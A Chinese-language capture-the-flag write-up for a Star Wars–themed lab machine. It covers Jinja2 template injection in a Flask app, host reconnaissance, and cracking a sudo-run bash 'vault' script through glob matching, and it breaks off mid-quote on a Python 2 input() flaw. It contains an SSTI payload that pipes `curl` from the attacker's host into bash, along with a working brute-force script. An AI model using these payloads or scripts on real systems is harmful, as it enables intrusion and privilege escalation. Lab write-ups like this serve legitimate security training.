        c.perform()
        c.close()

        # Extract the content and convert it to a string
        content = buffer.getvalue().decode('utf-8')
        buffer.close()
        website_content = '''
        <!DOCTYPE html>
<html>
<head>
    <title>Website Display</title>
</head>
<body>
    <h1>Fetch Website Content</h1>
    <h2>Currently in Development</h2>
    <form method="POST">
        <label for="website_url">Enter Website URL:</label>
        <input type="text" name="website_url" id="website_url" required>
        <button type="submit">Fetch Website</button>
    </form>
    <div>
        %s
    </div>
</body>
</html>'''%content

        return render_template_string(website_content)

    return render_template('index.html')

if __name__ == '__main__':
    app.run(host="0.0.0.0",debug=False)
```
:::
## RCE via SSTI
```python
content = buffer.getvalue().decode('utf-8')
website_content = '''...%s...'''%content
return render_template_string(website_content)
```

其将字符串直接拼接入模版引擎, 根据[文档](https://flask.palletsprojects.com/en/stable/tutorial/templates/), Flask 使用 Jinja2 模版引擎.

只需要在本地挂一个包含载荷的文件并进行 fetch 即可执行 Shell:
```python
{{cycler.__init__.__globals__.os.popen('curl 10.65.96.14|bash').read() }}
```

# shell as hansolo on host
## Recon
::: tabs
@tab Users
```sh
hansolo@contrabando:~$ whoami
hansolo
hansolo@contrabando:~$ id
uid=1000(hansolo) gid=1000(hansolo) groups=1000(hansolo)
hansolo@contrabando:~$ cat /etc/group|grep docker
docker:x:998:
hansolo@contrabando:~$ sudo -l
Matching Defaults entries for hansolo on contrabando:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hansolo may run the following commands on contrabando:
    (root) NOPASSWD: /usr/bin/bash /usr/bin/vault
    (root) /usr/bin/python* /opt/generator/app.py
```
没有 Docker 权限, 但可以执行 Sudo, 分别以无密码和有密码运行两个文件

可写没什么特殊的:
```sh
hansolo@contrabando:~$ find / -writable -ls 2>/dev/null |grep -vE 'home|proc|tmp|/sys|/snap|/dev'
      966      0 srw-rw-rw-   1 root     root            0 Sep 24 12:33 /run/uuidd/request
        1      0 drwx------   5 hansolo  hansolo       160 Sep 24 14:18 /run/user/1000
       24      0 srw-rw-rw-   1 hansolo  hansolo         0 Sep 24 14:18 /run/user/1000/pk-debconf-socket
       18      0 drwx------   2 hansolo  hansolo       140 Sep 24 14:18 /run/user/1000/gnupg
       23      0 srw-------   1 hansolo  hansolo         0 Sep 24 14:18 /run/user/1000/gnupg/S.gpg-agent
       22      0 srw-------   1 hansolo  hansolo         0 Sep 24 14:18 /run/user/1000/gnupg/S.gpg-agent.ssh
       21      0 srw-------   1 hansolo  hansolo         0 Sep 24 14:18 /run/user/1000/gnupg/S.gpg-agent.extra
       20      0 srw-------   1 hansolo  hansolo         0 Sep 24 14:18 /run/user/1000/gnupg/S.gpg-agent.browser
       19      0 srw-------   1 hansolo  hansolo         0 Sep 24 14:18 /run/user/1000/gnupg/S.dirmngr
       16      0 srw-rw-rw-   1 hansolo  hansolo         0 Sep 24 14:18 /run/user/1000/bus
      959      0 prw-rw-rw-   1 root     root            0 Sep 24 12:33 /run/cloud-init/hook-hotplug-cmd
        1      0 drwxrwxrwt   4 root     root           80 Sep 24 12:32 /run/lock
   525761      0 lrwxrwxrwx   1 root     root            9 Mar 14  2023 /var/lock -> /run/lock
   525765      4 drwxrwxrwt   2 root     root         4096 Mar 14  2023 /var/crash
```

@tab SystemInfo
```sh
hansolo@contrabando:~$ uname -a
Linux contrabando 5.15.0-139-generic #149~20.04.1-Ubuntu SMP Wed Apr 16 08:29:56 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
hansolo@contrabando:~$ mount 
sysfs on /sys type sysfs (rw,nosuid,nodev,noexec,relatime)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
udev on /dev type devtmpfs (rw,nosuid,noexec,relatime,size=1945252k,nr_inodes=486313,mode=755,inode64)
devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=000)
tmpfs on /run type tmpfs (rw,nosuid,nodev,noexec,relatime,size=395680k,mode=755,inode64)
/dev/mapper/ubuntu--vg-ubuntu--lv on / type ext4 (rw,relatime)
securityfs on /sys/kernel/security type securityfs (rw,nosuid,nodev,noexec,relatime)
tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev,inode64)
tmpfs on /run/lock type tmpfs (rw,nosuid,nodev,noexec,relatime,size=5120k,inode64)
tmpfs on /sys/fs/cgroup type tmpfs (ro,nosuid,nodev,noexec,mode=755,inode64)
cgroup2 on /sys/fs/cgroup/unified type cgroup2 (rw,nosuid,nodev,noexec,relatime,nsdelegate)
cgroup on /sys/fs/cgroup/systemd type cgroup (rw,nosuid,nodev,noexec,relatime,xattr,name=systemd)
pstore on /sys/fs/pstore type pstore (rw,nosuid,nodev,noexec,relatime)
bpf on /sys/fs/bpf type bpf (rw,nosuid,nodev,noexec,relatime,mode=700)
cgroup on /sys/fs/cgroup/cpu,cpuacct type cgroup (rw,nosuid,nodev,noexec,relatime,cpu,cpuacct)
cgroup on /sys/fs/cgroup/devices type cgroup (rw,nosuid,nodev,noexec,relatime,devices)
cgroup on /sys/fs/cgroup/net_cls,net_prio type cgroup (rw,nosuid,nodev,noexec,relatime,net_cls,net_prio)
cgroup on /sys/fs/cgroup/pids type cgroup (rw,nosuid,nodev,noexec,relatime,pids)
cgroup on /sys/fs/cgroup/misc type cgroup (rw,nosuid,nodev,noexec,relatime,misc)
cgroup on /sys/fs/cgroup/rdma type cgroup (rw,nosuid,nodev,noexec,relatime,rdma)
cgroup on /sys/fs/cgroup/memory type cgroup (rw,nosuid,nodev,noexec,relatime,memory)
cgroup on /sys/fs/cgroup/freezer type cgroup (rw,nosuid,nodev,noexec,relatime,freezer)
cgroup on /sys/fs/cgroup/cpuset type cgroup (rw,nosuid,nodev,noexec,relatime,cpuset)
cgroup on /sys/fs/cgroup/blkio type cgroup (rw,nosuid,nodev,noexec,relatime,blkio)
cgroup on /sys/fs/cgroup/perf_event type cgroup (rw,nosuid,nodev,noexec,relatime,perf_event)
cgroup on /sys/fs/cgroup/hugetlb type cgroup (rw,nosuid,nodev,noexec,relatime,hugetlb)
systemd-1 on /proc/sys/fs/binfmt_misc type autofs (rw,relatime,fd=28,pgrp=1,timeout=0,minproto=5,maxproto=5,direct,pipe_ino=15505)
hugetlbfs on /dev/hugepages type hugetlbfs (rw,relatime,pagesize=2M)
mqueue on /dev/mqueue type mqueue (rw,nosuid,nodev,noexec,relatime)
debugfs on /sys/kernel/debug type debugfs (rw,nosuid,nodev,noexec,relatime)
tracefs on /sys/kernel/tracing type tracefs (rw,nosuid,nodev,noexec,relatime)
fusectl on /sys/fs/fuse/connections type fusectl (rw,nosuid,nodev,noexec,relatime)
configfs on /sys/kernel/config type configfs (rw,nosuid,nodev,noexec,relatime)
binfmt_misc on /proc/sys/fs/binfmt_misc type binfmt_misc (rw,nosuid,nodev,noexec,relatime)
/var/lib/snapd/snaps/core20_2318.snap on /snap/core20/2318 type squashfs (ro,nodev,relatime,errors=continue,x-gdu.hide)
/var/lib/snapd/snaps/core20_2571.snap on /snap/core20/2571 type squashfs (ro,nodev,relatime,errors=continue,x-gdu.hide)
/var/lib/snapd/snaps/snapd_24505.snap on /snap/snapd/24505 type squashfs (ro,nodev,relatime,errors=continue,x-gdu.hide)
/var/lib/snapd/snaps/snapd_21759.snap on /snap/snapd/21759 type squashfs (ro,nodev,relatime,errors=continue,x-gdu.hide)
/dev/nvme0n1p2 on /boot type ext4 (rw,relatime)
overlay on /var/lib/docker/overlay2/6be422c97fa8e6883d59f6c589c238ea89ab382151519b81b43a75cd39560b5d/merged type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/XSCIHIBS5CUXJ6ENIQJZOFJPOS:/var/lib/docker/overlay2/l/I5Z6P5VHQDSPX6D7JVDZATGIG3:/var/lib/docker/overlay2/l/2GYH2DPQKUC5K5JZELLDOV55MY:/var/lib/docker/overlay2/l/AIHVHMG4XQZXIEIQPMZR32EM5X:/var/lib/docker/overlay2/l/JIXN4LNTKM6TXGNRLWE5DTDSNF:/var/lib/docker/overlay2/l/APGC324LVQLI54DXNWLMQHXB2S:/var/lib/docker/overlay2/l/KUPRUJPGCGDMKQIVAB3FEJHKWS:/var/lib/docker/overlay2/l/6PW2OVYIP773MPGXA7CUUHV5BQ:/var/lib/docker/overlay2/l/V7AX673BHV5SSZ3ZOPMKYE3DGT:/var/lib/docker/overlay2/l/GQ6JM2CNQMSC5IMPR7ZTFXQNBO,upperdir=/var/lib/docker/overlay2/6be422c97fa8e6883d59f6c589c238ea89ab382151519b81b43a75cd39560b5d/diff,workdir=/var/lib/docker/overlay2/6be422c97fa8e6883d59f6c589c238ea89ab382151519b81b43a75cd39560b5d/work)
overlay on /var/lib/docker/overlay2/06cb66721df199b67b860a05d0ec37f6b9e3cfbe62f4e5d0adfc6c51e397189b/merged type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/K2V5UDST5HANIFF32RQQQURXI6:/var/lib/docker/overlay2/l/OXJ7ZCC3SSWNIZLKLCTPAUOLTS:/var/lib/docker/overlay2/l/BZBD7EGZEGZXIXAC37N46SKOWS:/var/lib/docker/overlay2/l/E4EGDK6ZJSUQXDM6ZL66ZRUSFO:/var/lib/docker/overlay2/l/WQ56DFD2KCXESFTVVN6B6KSRYE:/var/lib/docker/overlay2/l/ZO7GDSL6NW7GLV7KYZHRFBGVME:/var/lib/docker/overlay2/l/Y6T7S4U36OWCAVNADUR5PRAYN5:/var/lib/docker/overlay2/l/PXTT4S32ICNCSEBSU2FWUW5TIS:/var/lib/docker/overlay2/l/LY2P22X5F7DYX6ZRDC32XVD6MS:/var/lib/docker/overlay2/l/BWTCVWFWVR56W4ICAMQUQXSXUV:/var/lib/docker/overlay2/l/GL6G6LNAXONGEMA7SU3NZ3PUIO:/var/lib/docker/overlay2/l/PD2QJYOV7I4A6IBUBZ53OAXWLM:/var/lib/docker/overlay2/l/TC7XG5CPOHFO2CSCPLLPXK345D:/var/lib/docker/overlay2/l/DXCN2TG3I4S34YM4HMAAXOTO56:/var/lib/docker/overlay2/l/ARA5PBO32EGDYPM6SZBS3ZXK2T:/var/lib/docker/overlay2/l/WVMKUHVXDEWBWORY2DZ2W2AEOZ:/var/lib/docker/overlay2/l/VKBCL2TGAM6KCGVCLYNN76DKB2,upperdir=/var/lib/docker/overlay2/06cb66721df199b67b860a05d0ec37f6b9e3cfbe62f4e5d0adfc6c51e397189b/diff,workdir=/var/lib/docker/overlay2/06cb66721df199b67b860a05d0ec37f6b9e3cfbe62f4e5d0adfc6c51e397189b/work)
nsfs on /run/docker/netns/c811afb3c803 type nsfs (rw)
nsfs on /run/docker/netns/e2023e0f81c3 type nsfs (rw)
```
没有有趣的挂载, 也没有人给 `/tmp` 挂 `nosuid`

```sh
hansolo@contrabando:~$ find / -type f -perm -04000 -ls 2>/dev/null 
      293    133 -rwsr-xr-x   1 root     root       135960 Apr 24  2024 /snap/snapd/21759/usr/lib/snapd/snap-confine
      210    177 -rwsr-xr-x   1 root     root       180753 Apr  5  2025 /snap/snapd/24505/usr/lib/snapd/snap-confine
      875     84 -rwsr-xr-x   1 root     root        85064 Feb  6  2024 /snap/core20/2571/usr/bin/chfn
      881     52 -rwsr-xr-x   1 root     root        53040 Feb  6  2024 /snap/core20/2571/usr/bin/chsh
      951     87 -rwsr-xr-x   1 root     root        88464 Feb  6  2024 /snap/core20/2571/usr/bin/gpasswd
     1035     55 -rwsr-xr-x   1 root     root        55528 Apr  9  2024 /snap/core20/2571/usr/bin/mount
     1044     44 -rwsr-xr-x   1 root     root        44784 Feb  6  2024 /snap/core20/2571/usr/bin/newgrp
     1059     67 -rwsr-xr-x   1 root     root        68208 Feb  6  2024 /snap/core20/2571/usr/bin/passwd
     1169     67 -rwsr-xr-x   1 root     root        67816 Apr  9  2024 /snap/core20/2571/usr/bin/su
     1170    163 -rwsr-xr-x   1 root     root       166056 Apr  4  2023 /snap/core20/2571/usr/bin/sudo
     1228     39 -rwsr-xr-x   1 root     root        39144 Apr  9  2024 /snap/core20/2571/usr/bin/umount
     1317     51 -rwsr-xr--   1 root     systemd-resolve    51344 Oct 25  2022 /snap/core20/2571/usr/lib/dbus-1.0/dbus-daemon-launch-helper
     1691    467 -rwsr-xr-x   1 root     root              477672 Feb 11  2025 /snap/core20/2571/usr/lib/openssh/ssh-keysign
      850     84 -rwsr-xr-x   1 root     root               85064 Feb  6  2024 /snap/core20/2318/usr/bin/chfn
      856     52 -rwsr-xr-x   1 root     root               53040 Feb  6  2024 /snap/core20/2318/usr/bin/chsh
      926     87 -rwsr-xr-x   1 root     root               88464 Feb  6  2024 /snap/core20/2318/usr/bin/gpasswd
     1010     55 -rwsr-xr-x   1 root     root               55528 Apr  9  2024 /snap/core20/2318/usr/bin/mount
     1019     44 -rwsr-xr-x   1 root     root               44784 Feb  6  2024 /snap/core20/2318/usr/bin/newgrp
     1034     67 -rwsr-xr-x   1 root     root               68208 Feb  6  2024 /snap/core20/2318/usr/bin/passwd
     1144     67 -rwsr-xr-x   1 root     root               67816 Apr  9  2024 /snap/core20/2318/usr/bin/su
     1145    163 -rwsr-xr-x   1 root     root              166056 Apr  4  2023 /snap/core20/2318/usr/bin/sudo
     1203     39 -rwsr-xr-x   1 root     root               39144 Apr  9  2024 /snap/core20/2318/usr/bin/umount
     1292     51 -rwsr-xr--   1 root     systemd-resolve    51344 Oct 25  2022 /snap/core20/2318/usr/lib/dbus-1.0/dbus-daemon-launch-helper
     1666    467 -rwsr-xr-x   1 root     root              477672 Jan  2  2024 /snap/core20/2318/usr/lib/openssh/ssh-keysign
   155216    468 -rwsr-xr-x   1 root     root              477672 Apr 11  2025 /usr/lib/openssh/ssh-keysign
   133983    156 -rwsr-xr-x   1 root     root              159304 Jan 15  2025 /usr/lib/snapd/snap-confine
   132422     52 -rwsr-xr--   1 root     messagebus         51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   132429     16 -rwsr-xr-x   1 root     root               14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
   132637     24 -rwsr-xr-x   1 root     root               22840 Feb 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
   140590     56 -rwsr-xr-x   1 root     root               55528 Apr  9  2024 /usr/bin/mount
   135026     68 -rwsr-xr-x   1 root     root               67816 Apr  9  2024 /usr/bin/su
   135572     68 -rwsr-xr-x   1 root     root               68208 Feb  6  2024 /usr/bin/passwd
   144529    164 -rwsr-xr-x   1 root     root              166056 Apr  4  2023 /usr/bin/sudo
   135567     84 -rwsr-xr-x   1 root     root               85064 Feb  6  2024 /usr/bin/chfn
   135571     88 -rwsr-xr-x   1 root     root               88464 Feb  6  2024 /usr/bin/gpasswd
   148199     40 -rwsr-xr-x   1 root     root               39144 Apr  9  2024 /usr/bin/umount
   135568     52 -rwsr-xr-x   1 root     root               53040 Feb  6  2024 /usr/bin/chsh
   133747     44 -rwsr-xr-x   1 root     root               44784 Feb  6  2024 /usr/bin/newgrp
   131943     32 -rwsr-xr-x   1 root     root               31032 Feb 21  2022 /usr/bin/pkexec
   131724     40 -rwsr-xr-x   1 root     root               39144 Mar  7  2020 /usr/bin/fusermount
   131543     56 -rwsr-sr-x   1 daemon   daemon             55560 Nov 12  2018 /usr/bin/at
```
也没有什么有趣的 SUID 文件

```sh
hansolo@contrabando:~$ ps -ef
UID          PID    PPID  C STIME TTY          TIME CMD
...
systemd+     586       1  0 12:32 ?        00:00:00 /lib/systemd/systemd-timesyncd
root         598       2  0 12:32 ?        00:00:00 bpfilter_umh
systemd+     636       1  0 12:33 ?        00:00:00 /lib/systemd/systemd-networkd
systemd+     638       1  0 12:33 ?        00:00:00 /lib/systemd/systemd-resolved
root         651       1  0 12:33 ?        00:00:00 /usr/lib/accountsservice/accounts-daemon
root         652       1  0 12:33 ?        00:00:00 /usr/bin/amazon-ssm-agent
root         655       1  0 12:33 ?        00:00:00 /usr/sbin/cron -f
message+     656       1  0 12:33 ?        00:00:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
root         663       1  0 12:33 ?        00:00:00 /usr/sbin/irqbalance --foreground
root         665       1  0 12:33 ?        00:00:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers
root         666       1  0 12:33 ?        00:00:00 /usr/lib/policykit-1/polkitd --no-debug
syslog       672       1  0 12:33 ?        00:00:00 /usr/sbin/rsyslogd -n -iNONE
root         674       1  0 12:33 ?        00:00:01 /usr/lib/snapd/snapd
root         680       1  0 12:33 ?        00:00:00 /lib/systemd/systemd-logind
root         682       1  0 12:33 ?        00:00:00 /usr/lib/udisks2/udisksd
daemon       685       1  0 12:33 ?        00:00:00 /usr/sbin/atd -f
root         693       1  0 12:33 ?        00:00:08 /usr/bin/containerd
root         694     655  0 12:33 ?        00:00:00 /usr/sbin/CRON -f
root         712       1  0 12:33 ttyS0    00:00:00 /sbin/agetty -o -p -- \u --keep-baud 115200,38400,9600 ttyS0 vt220
root         722       1  0 12:33 tty1     00:00:00 /sbin/agetty -o -p -- \u --noclear tty1 linux
hansolo      734     694  0 12:33 ?        00:00:00 /bin/sh -c /usr/bin/python3 /home/hansolo/app/app.py
hansolo      735     734  0 12:33 ?        00:00:01 /usr/bin/python3 /home/hansolo/app/app.py
root         741       1  0 12:33 ?        00:00:00 /usr/bin/python3 /usr/share/unattended-upgrades/unattended-upgrade-shutdown --wait-for-signal
root         745       1  0 12:33 ?        00:00:00 /usr/sbin/ModemManager
root         746       1  0 12:33 ?        00:00:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
root         905       1  0 12:33 ?        00:00:03 /usr/bin/dockerd -H fd:// --containerd=/run/containerd/containerd.sock
root        1204       1  0 12:33 ?        00:00:00 /usr/bin/containerd-shim-runc-v2 -namespace moby -id 8783651820fd1d553c0d469d980f64369244cd59d0d69a0a9fa3189ea9d895b1 -address /run/containerd/containerd.sock
root        1210       1  0 12:33 ?        00:00:00 /usr/bin/containerd-shim-runc-v2 -namespace moby -id 124a042cc76c416f0463dda0bb03efb8598a9ccb02fc6e1f54da85db22f7f84d -address /run/containerd/containerd.sock
root        1246    1204  0 12:33 ?        00:00:00 httpd -DFOREGROUND
root        1262    1210  0 12:33 ?        00:00:00 apache2 -DFOREGROUND
root        1297     905  0 12:33 ?        00:00:00 /usr/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-port 80 -container-ip 172.18.0.2 -container-port 80 -use-listen-fd
root        1302     905  0 12:33 ?        00:00:00 /usr/bin/docker-proxy -proto tcp -host-ip :: -host-port 80 -container-ip 172.18.0.2 -container-port 80 -use-listen-fd
www-data    1383    1246  0 12:33 ?        00:00:00 httpd -DFOREGROUND
www-data    1384    1246  0 12:33 ?        00:00:00 httpd -DFOREGROUND
www-data    1387    1246  0 12:33 ?        00:00:00 httpd -DFOREGROUND
www-data    1467    1262  0 12:34 ?        00:00:00 apache2 -DFOREGROUND
www-data    1468    1262  0 12:34 ?        00:00:00 apache2 -DFOREGROUND
www-data    1469    1262  0 12:34 ?        00:00:00 apache2 -DFOREGROUND
www-data    1470    1262  0 12:34 ?        00:00:00 apache2 -DFOREGROUND
www-data    1471    1262  0 12:34 ?        00:00:00 apache2 -DFOREGROUND
root        1486       2  0 12:39 ?        00:00:00 [kworker/1:0-mm_percpu_wq]
www-data    1498    1246  0 12:55 ?        00:00:00 httpd -DFOREGROUND
```
没什么有趣的进程

@tab Crontab And ServiceTimers
```sh
hansolo@contrabando:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
hansolo@contrabando:~$ ls /etc/cron*
/etc/crontab

/etc/cron.d:
e2scrub_all  popularity-contest

/etc/cron.daily:
apport  apt-compat  bsdmainutils  dpkg  logrotate  man-db  popularity-contest  update-notifier-common

/etc/cron.hourly:

/etc/cron.monthly:

/etc/cron.weekly:
man-db  update-notifier-common

hansolo@contrabando:~$ systemctl list-timers
NEXT                        LEFT         LAST                        PASSED               UNIT                         ACTIVATES                     
Thu 2026-09-24 15:57:28 UTC 35min left   Mon 2025-05-05 17:54:04 UTC 1 years 4 months ago motd-news.timer              motd-news.service             
Thu 2026-09-24 20:30:17 UTC 5h 8min left Mon 2025-05-05 17:51:25 UTC 1 years 4 months ago fwupd-refresh.timer          fwupd-refresh.service         
Fri 2026-09-25 00:00:00 UTC 8h left      Thu 2026-09-24 12:33:17 UTC 2h 48min ago         logrotate.timer              logrotate.service             
Fri 2026-09-25 00:00:00 UTC 8h left      Thu 2026-09-24 12:33:17 UTC 2h 48min ago         man-db.timer                 man-db.service                
Fri 2026-09-25 12:47:24 UTC 21h left     Thu 2026-09-24 12:47:24 UTC 2h 34min ago         systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service
Sun 2026-09-27 03:10:46 UTC 2 days left  Thu 2026-09-24 12:33:17 UTC 2h 48min ago         e2scrub_all.timer            e2scrub_all.service           
Mon 2026-09-28 00:00:00 UTC 3 days left  Thu 2026-09-24 12:33:17 UTC 2h 48min ago         fstrim.timer                 fstrim.service                

7 timers listed
```

@tab Network
```sh
hansolo@contrabando:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens5: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc mq state UP group default qlen 1000
    link/ether 0e:ff:fe:57:a8:59 brd ff:ff:ff:ff:ff:ff
    altname enp0s5
    inet 10.65.161.131/18 metric 100 brd 10.65.191.255 scope global dynamic ens5
       valid_lft 2457sec preferred_lft 2457sec
    inet6 fe80::cff:feff:fe57:a859/64 scope link 
       valid_lft forever preferred_lft forever
3: br-1621ef30c577: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 0a:14:20:c4:be:e1 brd ff:ff:ff:ff:ff:ff
    inet 172.18.0.1/16 brd 172.18.255.255 scope global br-1621ef30c577
       valid_lft forever preferred_lft forever
    inet6 fe80::814:20ff:fec4:bee1/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether ae:5b:e1:f9:8c:28 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
5: vethb87609d@if2: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master br-1621ef30c577 state UP group default 
    link/ether 4e:dc:ae:a5:5c:94 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet6 fe80::4cdc:aeff:fea5:5c94/64 scope link 
       valid_lft forever preferred_lft forever
6: veth38bfb0a@if2: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master br-1621ef30c577 state UP group default 
    link/ether 02:c0:eb:1a:cc:28 brd ff:ff:ff:ff:ff:ff link-netnsid 1
    inet6 fe80::c0:ebff:fe1a:cc28/64 scope link 
       valid_lft forever preferred_lft forever
hansolo@contrabando:~$ ss -lntp
State                  Recv-Q                 Send-Q                                  Local Address:Port                                   Peer Address:Port                 Process                                           
LISTEN                 0                      128                                           0.0.0.0:22                                          0.0.0.0:*                                                                      
LISTEN                 0                      4096                                          0.0.0.0:80                                          0.0.0.0:*                                                                      
LISTEN                 0                      128                                           0.0.0.0:5000                                        0.0.0.0:*                     users:(("python3",pid=735,fd=3))                 
LISTEN                 0                      4096                                    127.0.0.53%lo:53                                          0.0.0.0:*                                                                      
LISTEN                 0                      128                                              [::]:22                                             [::]:*                                                                      
LISTEN                 0                      4096                                             [::]:80                                             [::]:*
```
没什么有趣的网卡或者内部端口了
:::
## vault
实际上并不是那个开源的 vault, 只是一个自编写脚本:
```sh
#!/bin/bash

check () {
        if [ ! -e "$file_to_check" ]; then
            /usr/bin/echo "File does not exist."
            exit 1
        fi
        compare
}

compare () {
        content=$(/usr/bin/cat "$file_to_check")

        read -s -p "Enter the required input: " user_input

        if [[ $content == $user_input ]]; then
            /usr/bin/echo ""
            /usr/bin/echo "Password matched!"
            /usr/bin/cat "$file_to_print"
        else
            /usr/bin/echo "Password does not match!"
        fi
}

file_to_check="/root/password"
file_to_print="/root/secrets"

check
```

将输入通过 `read` 读取为字符出, 与 `/root/password` 中内容比较, 若成功则输出 `/root/secrets` 的内容. 但 BASH 的比较支持通配符, 输入密码时密码不会显示在终端上.
```
hansolo@contrabando:~$ sudo /usr/bin/bash /usr/bin/vault 
Enter the required input: 
Password matched!
1. Lightsaber Colors: Lightsabers in Star Wars can come in various colors, and the color often signifies the Jedi's role or affiliation. For example, blue and green lightsabers are commonly associated with Jedi Knights, while red lightsabers are typically used by Sith. However, there are exceptions, and the color can also represent other factors.

2. Darth Vader's Breathing: The iconic sound of Darth Vader's breathing was created by sound designer Ben Burtt. He achieved this effect by recording himself breathing through a scuba regulator. The sound became one of the most recognizable and menacing elements of the character.

3. Ewok Language: The Ewoks, the small furry creatures from the forest moon of Endor in "Return of the Jedi," speak a language called Ewokese. The language is a combination of various Tibetan, Nepalese, and Kalmyk phrases, as well as some manipulated dialogue from the Quechua language.

4. Han Solo's Carbonite Freeze: In "Star Wars: Episode V - The Empire Strikes Back," Han Solo is frozen in carbonite. The famous line, "I love you," "I know," was actually improvised by Harrison Ford. The original script had Han responding with "I love you too," but Ford felt that Han's character wouldn't say that, so he ad-libbed the now-famous line.

5. Yoda's Species and Name: Yoda's species and homeworld are never revealed in the Star Wars films, and George Lucas has been adamant about keeping this information a mystery. Additionally, the name "Yoda" was chosen simply because George Lucas liked the sound of it.
```

几个星球大战冷知识, 也契合这台 Box 的题目以及账户命名风格. 但如果要取得进一步进展我们最好爆破密码.

### crack
写了一个脚本, 用于循环爆破, 以及 BASH 的语法真的有些初见杀, 但 AI 真好用:
```sh
charset='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()_+-=[]{}|;:,.<>?/'
pass=""
cracked=false

while true; do
  temp="${pass}*"
  o1=$(printf '%s\n' "$temp" | sudo /usr/bin/bash /usr/bin/vault)

  if printf '%s\n' "$o1" | grep -q 'not match'; then
    echo "Password Found"
    printf '%s\n' "$pass"
    cracked=true
    break
  fi

  for ((idx = 0; idx < ${#charset}; idx++)); do
    i="${charset:idx:1}"
    t="${pass}${i}*"
    o=$(printf '%s\n' "$t" | sudo /usr/bin/bash /usr/bin/vault)

    if printf '%s\n' "$o" | grep -q 'matched!'; then
      pass+="$i"
      printf '%s\n' "$pass"
      break
    fi
  done
done
```

```sh
hansolo@contrabando:~$ bash b1.sh
E
EQ
...
EQu5ehwHcRfZ
EQu5ehwHcRfZ*
```

得到密码: `EQu5ehwHcRfZ`, 无法直接用于 ROOT 认证, 但可以用于 `hansolo` 的认证.
```sh
hansolo@contrabando:~$ echo 'EQu5ehwHcRfZ' |su -
Password: su: Authentication failure
hansolo@contrabando:~$ echo 'EQu5ehwHcRfZ' |su hansolo
Password: hansolo@contrabando:~$
```

## generator
```python
import random
import string

def generate_password(length):
    characters = string.ascii_letters + string.digits + string.punctuation
    random.seed()
    secret = input("Any words you want to add to the password? ")
    password_characters = list(characters + secret)
    random.shuffle(password_characters)
    password = ''.join(password_characters[:length])

    return password

try:
    length = int(raw_input("Enter the desired length of the password: "))
except NameError:
    length = int(input("Enter the desired length of the password: "))
except ValueError:
    print("Invalid input. Using default length of 12.")
    length = 12

password = generate_password(length)
print("Generated Password:", password)
```

有没什么可以直接利用的地方, 趣的是Sudo配置中不限制运行该脚本 Python 版本.
```sh
hansolo@contrabando:~$ ls -liah /usr/bin/python*
141262 lrwxrwxrwx 1 root root    9 Mar 13  2020 /usr/bin/python2 -> python2.7
141501 -rwxr-xr-x 1 root root 3.5M Dec  9  2024 /usr/bin/python2.7
131186 lrwxrwxrwx 1 root root    9 Mar 13  2020 /usr/bin/python3 -> python3.8
132312 -rwxr-xr-x 1 root root 5.3M Mar 18  2025 /usr/bin/python3.8
143133 lrwxrwxrwx 1 root root   33 Mar 18  2025 /usr/bin/python3.8-config -> x86_64-linux-gnu-python3.8-config
184542 lrwxrwxrwx 1 root root   16 Mar 13  2020 /usr/bin/python3-config -> python3.8-config
```

机器上有 Python2 以及 Python 3. 但还是看不出来什么可利用的地方, 在扔给 AI 审查后:
:::note[quote]
 1. 严重：Python 2 下存在任意代码执行风险

  secret = input(...) 在 Python 2 中等价于 eval(raw_input(...))。用户输入会作为 Python 表达式执行，可
